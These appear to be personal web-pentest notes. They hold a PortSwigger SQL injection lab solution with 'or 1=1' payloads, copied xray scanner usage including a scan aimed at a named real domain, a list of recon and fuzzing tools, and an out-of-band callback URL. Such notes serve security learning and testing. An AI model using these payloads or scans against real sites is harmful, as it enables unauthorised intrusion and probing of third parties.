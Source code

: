 # Lab: SQL injection vulnerability in WHERE clause allowing retrieval of hidden data
``` SELECT * FROM products WHERE category = 'Gifts' AND released = 1
 ```

 Soln--> SELECT * FROM products WHERE category = ' '  ' --+ AND released = 1

 SELECT * FROM products WHERE category = ' '  or 1=1  ' --+ AND released = 1


https://portswigger-cdn.net/burp/releases/download?product=pro&version=2024.10.3&type=Jar









# XRAY 
 ```
./xray_linux_amd64 webscan --url https://bwed.ac.in/ --html-output vuln.html
 ```
## 🚀 Quick Usage

**Before using, be sure to read and agree to the terms in the [License](https://github.com/chaitin/xray/blob/master/LICENSE.md) file. If not, please do not install or use this tool.**

1. Use the basic crawler to scan the links crawled by the crawler for vulnerabilities

    ```bash
    xray webscan --basic-crawler http://example.com --html-output vuln.html
    ```

2. Use HTTP proxy for passive scanning

    ```bash
    xray webscan --listen 127.0.0.1:7777 --html-output proxy.html
    ```
   Set the browser's HTTP proxy to `http://127.0.0.1:7777`, then you can automatically analyze proxy traffic and scan it.

   > To scan HTTPS traffic, please read the "Capture HTTPS Traffic" section below.

3. Scan a single URL without using a crawler

    ```bash
    xray webscan --url http://example.com/?a=b --html-output single-url.html
    ```

4. Manually specify plugins for this run

   By default, all built-in plugins will be enabled. You can specify the plugins to be enabled for this scan with the following commands.

   ```bash
   xray webscan --plugins cmd-injection,sqldet --url http://example.com
   xray webscan --plugins cmd-injection,sqldet --listen 127.0.0.1:7777
   ```

5. Specify Plugin Output

   You can specify to output the vulnerability information of this scan to a file:

    ```bash
    xray webscan --url http://example.com/?a=b \
    --text-output result.txt --json-output result.json --html-output report.html
    ```

   
For other usage, please read the documentation: https://docs.xray.cool



# ***************************************** RECON


online tool 
    check os : search.censys.io / 
    crt.sh
    chaos.projectdiscovery.io  / https://cloud.projectdiscovery.io/
    https://dnsdumpster.com/

Tools : 
    dnscan :https://github.com/rbsec/dnscan     : 2m-wordlist.txt
    assetfinder
    sublist3r /subfinder
    nuclei : https://github.com/projectdiscovery/nuclei
    ffuf




manual find subdomain with = crt.sh virustotal  chaos.projectdiscovery.io
https://www.virustotal.com/gui/home/u...
https://chaos.projectdiscovery.io/#/
https://crt.sh/?q=

automate subdomain = subfinder assetfinder sublist3r amass 
https://github.com/tomnomnom/assetfinder
https://github.com/owasp-amass/amass
https://github.com/projectdiscovery/subfinder

brute force subdomain = ffuf gobuseter dirbuster amass

wordlist = Seclists , https://github.com/n0kovo/n0kovo_subdomains

live domain = httpx https://github.com/projectdiscovery/httpx

screenshoting = gowitness https://github.com/sensepost/gowitness

deep recon = https://github.com/shmilylty/OneForAll

find urls = waybackurl katana https://github.com/projectdiscovery/katana.. ,https://github.com/GerbenJavado/LinkFinder 

js data = subjs https://github.com/lc/subjs , katana -jc  

find path = dirsearch, ffuf https://github.com/ffuf/ffuf

parameter finder = arjun https://github.com/s0md3v/Arjun 

subdomain find = subzy https://github.com/PentestPad/subzy

Broken Link Hijacking = socialhunter https://github.com/utkusen/socialhunter

port finder = nmap p -T4 -sC -sV [ip address]

google dorking = https://nitinyadav00.github.io/Bug-Bounty-Search-Engine/

xss = https://github.com/faiyazahmad07/xss_vibes
http://irdzx09yi1d9ghbxk90pz6469xfo3gr5.oastify.com/